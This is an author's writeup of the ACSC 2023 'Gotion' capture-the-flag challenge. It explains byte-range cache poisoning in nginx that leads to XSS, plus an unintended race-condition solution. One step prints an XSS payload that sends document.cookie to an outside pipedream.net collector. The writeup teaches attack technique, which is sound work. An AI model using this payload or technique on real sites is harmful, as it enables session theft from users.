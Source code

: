 ```yaml
---
title: "ACSC 2023 Gotion Challenge Author Writeup"
date: 2023-03-12T00:00:00+09:00
---
```


I made a Gotion Challenge in [ACSC](https://acsc.asia/) (Asian Cyber Security Challenge) 2023.

This is a byte-range cache poisoning XSS challenge.

Challenge Description:

```
Gotion is yet another simple secure note service. You might have seen these kind of applications many times before, but try this one!
```

Challenge Repository: <https://github.com/tyage/acsc2023-gotion>

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">In ACSC 2023, I made a Gotion challenge and promotion video :) Thank you everyone who played! <a href="https://t.co/SN4PXKkKid">pic.twitter.com/SN4PXKkKid</a></p>&mdash; もうダニ by 左京区在中 (@tyage) <a href="https://twitter.com/tyage/status/1629679515529281536?ref_src=twsrc%5Etfw">February 26, 2023</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

# Challenge Details

The challenge has three components: Go web application, nginx and bot.
This is obviously an XSS challenge as the bot has FLAG in the cookie.

The Go app allows users to create simple note pages with only title and body.
The title "Gotion" is a parody of the famous note-taking app Notion and Go.

Users can enter title and body, but they are HTML escaped.
Therefore it is not possible to cause XSS in the notes page.

The key points here are that notes have their own unique URL and Gotion creates static HTML files for each note page like SSG (Static Site Generator).
Users can control the last part of the note URL, but they are only allowed to use restricted characters `[a-zA-Z0-9 ]`.

Looking inside nginx, the config file has a suspicious cache directive.

```nginx
proxy_cache_path /tmp/nginx keys_zone=mycache:10m;
server {
    listen 80;

    location ~ .mp4$ {
        # Smart and Efficient Byte-Range Caching with NGINX
        # https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/
        proxy_cache mycache;
        slice              4096; # Maybe it should be bigger?
        proxy_cache_key    $host$uri$is_args$args$slice_range;
        proxy_set_header   Range $slice_range;
        proxy_http_version 1.1;
        proxy_cache_valid  200 206 1h;
        proxy_pass http://app:3000;
    }

    location / {
        proxy_pass http://app:3000;
    }
}
```

This directive caches an mp4 file, but it is not a normal cache, it is a [byte-range cache](https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/) which allows us to cache part of the content.
When a client requests `Range: bytes=0-1000`, nginx requests the content with a `Range: bytes=0-4095` header to the origin server and caches the response.
If a client requests `Range: bytes=0-1000` again, nginx can respond quickly because there is a cache of the first 4096 bytes.

This config file also has an error in the location directive.
The `.` in `location ~ .mp4$` does not mean `.` but any character, because this is RegExp.
This directive was made for the video file `howto.mp4` but the file such as `FOOBARmp4` will unfortunately be cached.

# Solution

The solution is byte range cache poisoning, which causes nginx to return HTML containing XSS payload.

This is possible because nginx concatenates segmented caches.
Consider a situation where nginx has the content cache, but only the first 4096 bytes, and the content was updated later.
When a client makes a request without a range header, nginx will retrieve the rest of the updated content and concatenate it with the first cache.

In other words, we can concatenate the sliced parts of two different HTMLs!

The steps to exploit this into XSS are below.

1. Create a note page whose URL ends with `AAAAAAAAAAAAAAAAAmp4` so that it will be cached.

2. Modify the HTML of the note so that the first 4096 bytes end with `<`.

The first 4096 bytes of HTML will look like this

```html
<!DOCTYPE html>
<html lang="en">

<head>
...
          <textarea name="body" class="form-control" placeholder="note" style="height: 300px;">AAAA...AAAAA<
```

3. Cache the first 4096 bytes with a range header `curl http://.../...AAAAAAAAAAAAAAAAAmp4 -H "Range: bytes=0-4095"`.

4. Update the page so that the second 4096 bytes block starts with `img src=x onerror=[payload here]`.

The second block will look like this

```html
img src=x onerror=location=`//eo7x31ojradre3r.m.pipedream.net/?c=${document.cookie}` x=</textarea>
...
</body>

</html>
```

5. Report the URL `http://.../...AAAAAAAAAAAAAAAAAmp4

6. Wait for the flag and done!

The full solution script is here <https://github.com/tyage/acsc2023-gotion/blob/main/solution/solve.py>.

# Unintended Solution

There is an unintended solution.
I forgot to write an exclusive lock when Go app write a HTML to file.

<https://github.com/tyage/acsc2023-gotion/blob/main/app/main.go#L117>

```go
		f, err := os.OpenFile(noteFilePath, os.O_WRONLY|os.O_TRUNC, 0644)
		if err != nil {
			http.Error(w, "invalid note", http.StatusInternalServerError)
			return
		}

		WriteNote(f, NoteParam{
			Id:    noteId,
			URL:   noteURL,
			Title: title,
			Body:  body,
		})
```

It causes race condition when the app process `WriteNote` at the same time and it was possible to store broken HTML causing XSS.

# Comment

To make a challenge solvable, origin HTTP server must support byte-range request and must *not* return E-Tag header.
Fortunately, Go net/http server meets these requirements therefore I chose the Go server.

Not only nginx but also some other HTTP cache servers and CDNs have this kind of implementation, so I think this concept has a chance to be exploited in a real environment.

I think this is the first PoC of byte-range cache poisoning XSS and I wish the participants have enjoyed the challenge!
